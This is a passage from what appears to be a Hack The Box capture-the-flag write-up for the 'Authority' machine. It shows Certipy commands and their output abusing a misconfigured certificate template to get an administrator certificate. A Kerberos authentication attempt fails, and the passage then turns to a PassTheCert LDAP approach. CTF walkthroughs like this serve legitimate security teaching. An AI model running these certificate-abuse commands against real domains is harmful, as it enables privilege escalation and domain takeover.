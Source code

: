     
    
    oxdf@hacky$ certipy req -username '0xdf$' -password 0xdf0xdf0xdf -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 3
    [*] Got certificate with multiple identifications
        UPN: 'administrator@authority.htb'
        DNS Host Name: 'authority.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator_authority.pfx'
    

### PassTheCert

#### Auth [Fail]

Typically at this point I would use the `auth` command to get the NTLM hash
for the administrator user:

    
    
    oxdf@hacky$ certipy auth -pfx administrator_authority.pfx 
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Found multiple identifications in certificate
    [*] Please select one:
        [0] UPN: 'administrator@authority.htb'
        [1] DNS Host Name: 'authority.htb'
    > 0
    [*] Using principal: administrator@authority.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
    

This happens “when a domain controller doesn’t have a certificate installed
for smart cards”, according to [this
post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-
my-8ae0f4304c1d) from Specterops. Specifically, it happens because “the DC
isn’t properly set up for PKINIT and authentication will fail”.

The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable certificate
> template but the resulting certificate fails for Kerberos authentication,
> you can try authenticating to LDAP via SChannel using something like
> [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only
> have LDAP access, but this should be enough if you have a certificate
> stating you’re a domain admin.

#### LDAP Shell [Path 1]

To perform a PassTheCert attack, I’ll need the key and certificate in separate
files, which `certipy` can handle:
